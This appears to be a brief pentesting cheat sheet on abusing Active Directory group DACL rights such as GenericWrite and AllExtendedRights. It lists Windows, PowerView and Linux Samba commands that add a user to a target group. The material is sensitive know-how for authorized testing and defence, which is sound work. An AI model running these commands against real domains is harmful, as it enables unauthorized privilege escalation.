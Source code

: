 # DACL Attacks on a group

## 1) WriteProperty/AllExtendedRights/GenericWrite Self

With one of these rights we can add a new member to the group

    net group <target_group> user1 /add

##### With PowerView

    Add-DomainGroupMember -Identity '<target_group>' -Members 'user1'

# Linux

    net rpc group addmem <group> user2 -U domain.local/user1%password -S <DC_IP>
